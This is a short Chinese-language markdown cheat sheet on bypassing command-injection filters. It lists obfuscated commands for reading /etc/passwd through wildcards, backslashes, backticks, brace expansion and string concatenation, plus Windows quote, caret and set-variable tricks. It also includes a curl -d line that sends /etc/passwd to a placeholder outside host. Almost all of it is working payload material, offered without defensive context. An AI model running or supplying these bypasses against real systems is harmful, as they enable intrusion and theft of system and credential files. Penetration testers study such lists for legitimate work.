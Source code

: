 - [命令注入](#命令注入)
  - [Bypass](#bypass)
    - [Linux](#linux)
    - [通配符](#通配符)
    - [字符串拼接](#字符串拼接)
    - [\\ (回车)](#-回车)
    - [curl -d](#curl--d)
    - [反引号](#反引号)
    - [大括号](#大括号)
    - [Windows](#windows)
    - [特殊符号](#特殊符号)
    - [set变量](#set变量)
    - [切割字符串](#切割字符串)

# 命令注入
## Bypass
### Linux
区别大小写
### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
### 反引号
```
``内的字符会被当成命令执行
```
### 大括号
{}代替空格  
`{ls,-alt}`
### Windows
不区分大小写
### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值